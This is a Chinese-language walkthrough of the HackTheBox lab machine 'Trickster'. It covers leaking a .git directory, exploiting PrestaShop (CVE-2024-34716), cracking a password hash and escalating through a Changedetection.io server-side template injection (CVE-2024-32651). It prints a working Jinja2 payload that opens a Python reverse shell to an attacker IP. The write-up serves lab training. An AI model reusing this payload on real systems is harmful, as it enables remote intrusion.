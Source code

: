 ```yaml
---
title: "HTB-Trickster"
date: 2024-09-28
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Git Hack

我在trickster的主域名发现了一个shop的子域名网站

![](./images/image-307.png)

这个shop看起来像是使用`PrestaShop`搭建，我搜索了一下相关的漏洞，无法直接使用

![](./images/image-308.png)

并且尝试了shop里的各种注入点，没有明显的漏洞，不过在我遍历目录的时候，发现了`.git`的目录

![](./images/image-310.png)

然后我使用`Githack`工具

\[github author="lijiejie" project="GitHack"\]\[/github\]

![](./images/image-311.png)

将这个目录作为url的路径，进入到了后台的登陆界面，并且得到PrestaShop的版本号为`8.1.5`

![](./images/image-312.png)

在之前的`.git`目录下我搜索到了一个`admin_pannel`，里面好像存在一个adam的用户

![](./images/image-313.png)

## CVE-2024-34716

\[github author="aelmokhtar" project="CVE-2024-34716"\]\[/github\]

![](./images/image-314.png)

得到`www-data`权限

在config里面找到一些信息

![](./images/image-315.png)

登录上mysql之后，在`ps_employee`表中发现james的密码hash

![](./images/image-316.png)

使用`hashcat`，破解除了james的密码：`alwaysandforever`

![](./images/image-317.png)

ssh登录上去，得到user.txt

![](./images/image-318.png)

## Privilege Escalation

上传`linpeas`，发现当前服务器运行着docker

![](./images/image-319.png)

上传`fscan`，发现`172.17.0.2`主机

\[github author="shadow1ng" project="fscan"\]\[/github\]

![](./images/image-320.png)

并且发现`5000`端口是打开的

![](./images/image-321.png)

将端口代理出来

![](./images/image-322.png)

进入到`Change Detection`

![](./images/image-323.png)

### CVE-2024-32651

相关知识：[CVE-2024-32651 –（Changedetection.io） – Hacktive 安全博客 (hacktivesecurity.com)](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/)

首先在kali上打开httpserver服务，并且添加到change detection

![](./images/image-325.png)

![](./images/image-324.png)

进入Edit，确保URL、Time、Send notification

![](./images/image-326.png)

然后进入notification，在Body处写入SSTI反弹shell的脚本

```
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```

![](./images/image-327.png)

然后保存即可

此处SSTI的原理是，这个服务会探测网站的变化，如果网站内容有变化那么就会触发通知信息

而Body是允许使用Jinja2模板来写内容

![](./images/image-331.png)

在kali上面，由于打开了80端口的httpserver服务，只需要写入一个`index.html`，并且不断修改他直到被检测到就行了

![](./images/image-332.png)

成功反弹到shell，但是没有root.txt呢？应该只是一个容器

使用`history`命令发现到密码，因为`apt update`需要管理员权限才能执行

![](./images/image-333.png)

使用密码切换到root用户，得到root.txt

![](./images/image-334.png)

## Summary

Git文件泄露好久没遇到过，刚做的时候还没想到这个，去讨论区看了一下才发现

`PrestaShop`的`Github CVE`，在几天前是用不了的（不知道为什么），后来作者修改了一下又能正常使用了

`history`来查看密码泄露也是比较独特的点，之前也没想到
